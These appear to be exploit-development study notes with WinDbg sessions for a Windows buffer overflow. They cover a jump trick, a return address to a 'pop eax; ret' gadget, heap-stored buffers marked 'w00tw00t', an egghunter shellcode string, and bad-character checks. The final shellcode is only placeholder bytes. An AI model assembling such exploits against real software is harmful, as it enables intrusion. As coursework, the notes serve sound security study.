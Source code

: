 ```bash
windbg> bl
windbg> g
windbg> u poi(@esp) L3
02feea84 31c9 xor ecx,ecx
02feea86 85c9 test ecx,ecx
02feea88 0f8411000000 je 02feea9f
windbg> r @zf
zf=1
windbg> dd 02feea9f - 4 # check destination of cond jmp
02feea9b 41412f00 41414141 41414141 41414141
...
```

##### Finding Alternative Places to Store Large Buffers

``` bash
# Edit Payload
preInputBuffer = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # xor ecx, ecx; test ecx, ecx; je 0x17 
inputBuffer = b"\x41" * size
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret
shellcode = b"w00tw00t" + b"\x44" * 400
buf = preInputBuffer + inputBuffer + shellcode

windbg> bp 0x00418674
windbg> bl
windbg> g
windbg> s -a 0x0 L?80000000 w00tw00t
01365a5e ... w00tw00tDDDDDDDD
windbg> db 01365a5e + 0n408 - 4 L4
01365bf2 44 44 44 44
windbg> !address 01365a5e # should show Usage: Heap
```

##### Using EggHunter

```bash
kali$ python3 original_egghunter_win10.py
egghunter = 
("\x66\x81\xca\xff\x0f\x42\x52\x68\xc6\x01\x00\x00\x58\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7")

# Edit Payload
preInputBuffer = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # xor ecx, ecx; test ecx, ecx; je 0x17 
egghunter = 
("\x66\x81\xca\xff\x0f\x42\x52\x68\xc6\x01\x00\x00\x58\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7")
inputBuffer = b"\x41" * (size - len(egghunter))
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret

badchars = (b"\x00...")

shellcode = b"w00tw00t" + badchars + b"\x44" * (400-len(badchars))

buf = preInputBuffer + egghunter + inputBuffer + shellcode

# Check for bad chars
windbg> s -a 0x0 L?80000000 w00tw00t
01785b2e ...
windbg> db 017852be L110
... # check for bad chars
```
